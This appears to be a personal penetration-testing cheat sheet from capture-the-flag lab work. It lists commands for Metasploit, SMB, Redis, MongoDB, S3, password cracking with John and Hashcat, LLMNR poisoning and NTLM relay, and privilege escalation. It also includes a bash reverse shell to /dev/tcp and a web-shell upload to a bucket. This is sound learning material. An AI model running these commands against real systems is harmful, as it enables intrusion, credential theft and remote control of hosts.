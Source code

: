 # Tools
Helpful resources
 - https://gowthams.gitbook.io/bughunter-handbook/  (quick reference)
 - https://exploit-notes.hdks.org (quick reference) 
 - https://portswigger.net/web-security/dashboard
 - https://cloud.hacktricks.xyz/welcome/readme
 - https://gtfobins.github.io/gtfobins/vi/#sudo
### Metasploit
 - use `exploit/...`
 - `show options`
 - `run`
 - After u r in a shell, u can put it in background using `background`.
 - Upgrade most recently opened session `sessions -u -1`.


### ZAP
 - `Tools -> Spider`
 - `Analyze -> Scan Policy Manager` remove the things u do not want to scan for, like if no DB, why SQL scanning?
 - see https://tryhackme.com/room/dastzap for authenticated scan details.

### Redis
 - `sudo apt install redis-tools`
 - `redis-cli -h {target_IP}`
 - `info`
 - `select 0` select db with index number.
 - `keys *`, list keys.
 - `get <key>`.

### xfreerdp
 - `xfreerdp /u:administrator  /v:10.129.1.13` try to connect without password.

### gobuster
 - `gobuster dir -u 10.129.145.11 -w ~/SecLists/Discovery/Web-Content/common.txt`

### mongo
 - ./mongo mongodb://{target_IP}:27017
 - help
 - show dbs;
 - use <db_name>;
 - show collections;
 - db.<collection_name>.find().pretty();

### rsync
 - `rsync --list-only 10.129.204.156::` list directories.
 - `rsync --list-only 10.129.204.156::public` list files within directory, here named public.
 - `rsync {target_IP}::public/flag.txt flag.txt` bring remote flag.txt in my machine.

### Mysql
 - `mysql -h <ip> -u root` to login.
 - SHOW databases; : Prints out the databases we can access.
 - USE {database_name}; : Set to use the database named {database_name}.
 - SHOW tables; : Prints out the available tables inside the current database.
 - SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.

### AWS s3
 - aws --endpoint=http://s3.thetoppers.htb s3 ls
 - aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
 - `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb` to upload

### SSH tunneling
 - `ssh -L 1234:localhost:5432 christine@{target_IP}` locally we will be listening to 1234

### SMB
 - `smbclient \\\\10.10.10.131\\ADMIN$ -U Administrator` list.
 - `smbclient -L 10.129.27.203 -U administrator`.
 - `python psexec.py username:password@hostIP`.
 -  `psexec.py administrator@10.10.10.131`.

### John
 - `zip2john backup.zip > zip.hashes` dumps hashes to file.
 - `john zip.hashes` cracks the password.

### Hashcat
 - `hashcat -a 0 -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt` crack md5.
 - `hashcat -m 5600 hash.txt rockyou.txt` crach ntlm.

## Scanning
### nmap
 - `nmap --script=smb2-security-mode.nse -p445 <network>/24` find devices with smb signing disabled.
### Rustscan
 - `./rustscan -a 10.129.95.185 -r 1-65535` maybe use rustscan to find open ports first, and then use nmap for service detection and stuff.
### sqlmap
 - `sqlmap -u "http://10.129.29.21/dashboard.php?search=%27" --cookie="PHPSESSID=f0mn05nbrdadh5164gavl9q4un"`

### Responder
 - `sudo ./test/bin/python Responder.py -I vboxnet0 -rdwv` listen and respond for LLMNR poisioning.
 - `impacket-ntlmrelayx -tf targets.txt -smb2support` pass the hash, targets.txt has victims ip, `-i` to get interactive smb shell, `-e meterpreter.exe`.

## Upgrading shell with TTY session
 - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
### bash
 - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`, reverse shell.
 - `sudo -l` check sudo permissions.
 - 

# Privilige escalation
### Linux
 - `id` see what groups we are a part of, google to see if these groups have any extra permissions.
 - `sudo -l` check sudo permissions.
 - Check GTFO bin `https://gtfobins.github.io/`.
### Windows
 - `whoami /priv` to see what priviliges you have.
 - See wierd folders and files.
 - `schtasks` in cmd or `ps` in powershell to see processes.
 - 
